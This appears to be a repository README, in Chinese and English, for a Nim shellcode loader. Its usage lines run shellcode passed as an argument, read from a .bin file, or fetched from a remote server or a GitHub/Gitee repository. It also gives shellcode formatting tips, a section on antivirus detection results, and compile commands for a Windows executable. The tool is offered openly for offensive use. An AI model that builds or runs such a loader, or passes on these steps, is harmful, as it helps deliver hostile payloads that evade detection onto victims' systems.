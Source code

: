 # nim_shellloader

nim编写的shell_loader

详见以下:
details:
# usage
```
loader.exe payload.bin
loader.exe  (yourshellcode)
loader.exe (http://xxxx/xxx)
```
put your url/bin/shellcode direct
后面直接跟shellcode内容 或者bin文件名 或者网址就行


①use shellcode:

![](https://github.com/sh3d0ww01f/nim_shellloader/blob/master/image/1.gif)

②use bin file

使用bin文件加载shellcode

![](https://github.com/sh3d0ww01f/nim_shellloader/blob/master/image/2.gif)

③ load the shellcode which on your server(remote load)
加载你服务器上的shellcode

![](https://github.com/sh3d0ww01f/nim_shellloader/blob/master/image/3.gif)

Besides,You can load shellcode which on your reposiotory(gitee,github,etc.) like this

此外 你还可以把shellcode放在github，gitee的地方让loader去读

![](https://github.com/sh3d0ww01f/nim_shellloader/blob/master/image/4.png)

Notice:You must remove '\x' on your shellcode

注意:你必须去除你shellcode中的 \x

![](https://github.com/sh3d0ww01f/nim_shellloader/blob/master/image/5.png)


查杀情况


![](https://github.com/sh3d0ww01f/nim_shellloader/blob/master/image/6.png)

# 编译 compile

step1:   setup  require   安装所需的库
```
nimble install https://gitee.com/oagi/winim.git
nimble install https://gitee.com/oagi/nim-stew
```
step2: generate exe   生成exe
```
nim c --cpu:i386 -d:mingw -d:ssl --opt:size shellcode_loader.nim
```



